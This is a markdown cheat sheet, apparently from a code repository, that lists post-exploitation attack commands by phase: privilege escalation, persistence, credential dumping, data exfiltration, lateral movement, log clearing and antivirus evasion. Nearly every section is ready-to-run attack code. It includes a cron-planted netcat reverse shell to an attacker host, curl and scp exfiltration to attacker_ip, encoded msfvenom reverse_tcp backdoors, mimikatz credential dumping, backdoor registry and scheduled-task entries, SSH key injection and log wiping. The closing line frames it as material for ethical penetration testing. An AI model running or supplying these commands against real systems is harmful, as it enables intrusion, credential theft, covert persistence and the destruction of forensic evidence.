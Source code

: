 # Post-Exploitation Techniques

## Introduction
Post-exploitation refers to the phase after gaining initial access to a target system. The goal is to expand access, extract valuable information, maintain persistence, and pivot within the network while remaining undetected. This document covers essential post-exploitation techniques, including privilege escalation, persistence, credential harvesting, data exfiltration, lateral movement, and covering tracks.

## Table of Contents
- [Privilege Escalation](#privilege-escalation)
- [Persistence Techniques](#persistence-techniques)
- [Credential Harvesting](#credential-harvesting)
- [Data Exfiltration](#data-exfiltration)
- [Lateral Movement](#lateral-movement)
- [Covering Tracks](#covering-tracks)
- [Evasion Techniques](#evasion-techniques)
- [Conclusion](#conclusion)

## Privilege Escalation
Privilege escalation is crucial to gain higher-level permissions on a compromised system. 

### Windows Privilege Escalation
#### Checking User Privileges:
```bash
whoami /priv
```
#### Finding Exploitable Vulnerabilities:
```bash
run post/multi/recon/local_exploit_suggester
```
#### Exploiting Misconfigurations:
- **Unquoted Service Path:**
```bash
wmic service get name,displayname,pathname,startmode
```
- **DLL Hijacking:**
```bash
meterpreter > upload malicious.dll C:\Program Files\VulnerableApp\
```

### Linux Privilege Escalation
#### Finding SUID Binaries:
```bash
find / -perm -4000 -type f 2>/dev/null
```
#### Exploiting Sudo Permissions:
```bash
sudo -l
sudo /bin/bash
```

## Persistence Techniques
Persistence ensures continued access to the system after a reboot.

### Windows Persistence
#### Registry-based Persistence:
```bash
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_SZ /d "C:\backdoor.exe"
```
#### Scheduled Task Execution:
```bash
schtasks /create /tn "Backdoor" /tr "C:\backdoor.exe" /sc onlogon /ru System
```

### Linux Persistence
#### Cron Jobs:
```bash
echo "* * * * * /bin/bash -c 'nc -e /bin/sh attacker_ip 4444'" >> /etc/crontab
```
#### SSH Key Injection:
```bash
echo "attacker_public_key" >> ~/.ssh/authorized_keys
```

## Credential Harvesting
Credential harvesting allows attackers to extract login details for further exploitation.

### Windows Credential Dumping
```bash
meterpreter > hashdump
meterpreter > run post/windows/gather/credentials/mimikatz
```

### Linux Credential Dumping
#### Extracting Hashes:
```bash
cat /etc/shadow
```
#### Dumping SSH Keys:
```bash
cat ~/.ssh/id_rsa
```

## Data Exfiltration
Once valuable data is identified, it needs to be extracted without detection.

### Windows Exfiltration
```bash
meterpreter > download C:\Users\Admin\Documents\sensitive_data.zip /tmp/
```
### Linux Exfiltration
```bash
scp user@target:/home/user/secrets.txt attacker@attacker_ip:/tmp/
```
### Using HTTP Exfiltration
```bash
curl -X POST -F "file=@sensitive_data.zip" http://attacker_ip/upload.php
```

## Lateral Movement
Expanding access across the network to other machines.

### Windows Lateral Movement
#### Using PsExec:
```bash
psexec.exe \\target -u admin -p password -c backdoor.exe
```
#### Using RDP:
```bash
xfreerdp /u:admin /p:password /v:target_ip
```

### Linux Lateral Movement
#### SSH Pivoting:
```bash
ssh -D 1080 user@target
```
#### SMB Exploitation:
```bash
smbclient -L target -U victim
```

## Covering Tracks
To avoid detection, attackers must remove logs and traces of activity.

### Windows Clearing Logs
```bash
wevtutil cl Security
```
### Linux Clearing Logs
```bash
echo > /var/log/auth.log
rm -rf ~/.bash_history
```

## Evasion Techniques
Evading detection by security tools and analysts.

### Windows AV Evasion
#### Packing Executables:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe -e x86/shikata_ga_nai -o backdoor.exe
```

### Linux AV Evasion
#### Encoding Payloads:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f elf -e x86/shikata_ga_nai -o backdoor.elf
```

## Conclusion
Post-exploitation is crucial for maintaining access, gathering intelligence, and moving laterally within a network. This guide covered various techniques such as privilege escalation, persistence, credential harvesting, data exfiltration, lateral movement, covering tracks, and evasion techniques. These methods are essential for ethical penetration testing and red teaming scenarios.

_Use responsibly within legal and ethical boundaries._

